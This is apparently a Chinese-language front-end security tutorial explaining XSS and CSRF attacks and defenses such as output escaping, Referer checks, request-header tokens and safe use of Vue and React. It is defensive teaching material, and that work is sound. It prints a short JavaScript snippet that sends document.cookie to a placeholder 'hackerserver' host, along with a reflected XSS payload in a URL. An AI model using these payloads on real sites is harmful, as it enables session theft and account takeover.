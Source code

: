 ```yaml
---
sidebar: auto
sidebarDepth: 2
---
```


# 网络安全

## 重要性
随着互联网的发达，各种WEB应用也变得越来越复杂，满足了用户的各种需求，但是随之而来的就是各种网络安全的问题。了解常见的前端攻击形式和保护我们的网站不受攻击是我们每个优秀fronter必备的技能。

## 分类
- XSS攻击
- CSRF攻击
- 网络劫持攻击(运营商劫持)
- 控制台注入代码
- 虚假网站钓鱼

## XSS攻击
XSS是一种经常出现在web应用中的计算机安全漏洞，为了和 CSS 区分，这里把攻击的第一个字母改成了X，于是叫做XSS，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)，从而发起非法行为和获取网站的敏感数据。

### 发起方式
**实施XSS攻击需要具备两个条件**
- 一、需要向web页面注入恶意代码, 利用表单和url地址栏的查询字符串注入js非法代码
- 二、这些恶意代码能够被浏览器成功的执行

**XSS攻击的主要目的**
- 一、窃取Cookies和私信信息，发送到黑客网站上
```js
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
- 二、发起非法行为
```js
地址栏：
http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="

把id放入到img之后最终反射出来的HTML代码：
<div>
    <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```

### 经典案例
[CSDN注入](https://www.secpulse.com/archives/17830.html)  
[七种主要的XSS案例](https://www.anquanke.com/post/id/86585)

### 防范措施
DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。
- 在使用 .innerHTML、.outerHTML、document.write() 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等。
- 转义HTML，过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出。
- 如果用 Vue/React 技术栈，并且不使用 v-html/dangerouslySetInnerHTML 功能，就在前端 render 阶段避免 innerHTML、outerHTML 的 XSS 隐患。
- DOM 中的内联事件监听器，如 location、onclick、onerror、onload、onmouseover 等，a标签的 href 属性，JavaScript 的 eval()、setTimeout()、setInterval() 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。
```js
 <!-- 内联事件监听器中包含恶意代码 --> 
 < img   onclick = "UNTRUSTED"   onerror = "UNTRUSTED"   src = "data:image/png," > 
 <!-- 链接内包含恶意代码 --> 
 < a   href = "UNTRUSTED" > 1 </ a > 
 < script >  
 // setTimeout()/setInterval() 中调用恶意代码 
setTimeout( "UNTRUSTED" )
setInterval( "UNTRUSTED" )
 // location 调用恶意代码 
location.href =  'UNTRUSTED' 
 // eval() 中调用恶意代码 
 eval ( "UNTRUSTED" )
  </ script > 
```


## CSRF攻击
攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。
Cookie是按照Domain存储的，当请求一个网站的时候，浏览器会自动把这个网站的Cookie发送过去。

### 发起方式
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 

### 图解流程
![图解CSRF](/study/security/csrf.png)

#### 防范措施
CSRF攻击是攻击者利用用户的身份(Cookie)操作用户帐户的一种攻击方式，我们可以利用修改登录态的位置（由cookie中放到地址栏或者自定义请求头部）和refer的判断来防御CSRF攻击，由前端和服务端配合一起解决CSRF攻击。
- **验证HTTP Referer字段**  
根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须在 bank.example网站发起请求，referer的域名一定指向bank.example。如果 Referer 是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求。但Referer值是由浏览器提供的，服务端可以绕过这个限制修改Referer字段发起攻击。
- **在HTTP头中自定义属性并验证**  
这种方法是使用token并进行验证，把token的位置由Cookie移到http请求的头部，使第三方网站无法盗用身份信息。解决了在请求地址栏中加入token的不便，同时通过 XMLHttpRequest请求的地址不会被记录到浏览器的地址栏，也不用担心token会透过 Referer泄露到其他网站中去。
- **添加验证码操作**  
增加与用户的互动，即便是最简陋的验证码也能起到很好的效果

## XSS与CSRF之间的区别
| 攻击类型 | 字面理解 | 宿主网站 | 攻击方式|
| ------- | -----  | :----:  | ---- |
| XSS(cross site script)|跨站脚本攻击，在别人的网站注入JS脚本以触发非法操作或者获取别人网站的私密信息| A网站 | 给A网站注入JS脚本|
| CSRF(cross site request forgery)|跨站请求伪造，在钓鱼网站伪装成正常网站，非法使用浏览器自带Cookie的机制发起伪造正常网站的请求| A网站 | 在B网站借助A网站的Cookie，伪造发起A网站的请求|


## 在Vue与React中的防范措施
- JSX中防止XSS注入攻击
  - React DOM 在渲染所有输入内容之前，默认会进行转义。它可以确保在你的应用中，永远不会注入那些并非自己明确编写的内容。所有的内容在渲染之前都被转换成了字符串。这样可以有效地防止 XSS（cross-site-scripting, 跨站脚本）攻击。
  - dangerouslySetInnerHTML 是 React 为浏览器 DOM 提供 innerHTML 的替换方案。但当你想设置 dangerouslySetInnerHTML 时，需要向其传递包含 key 为 __html 的对象，以此来警示你。

- 在Vue中尽量不要使用v-html
  - 在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。只在可信内容上使用 v-html，永不用在用户提交的内容上。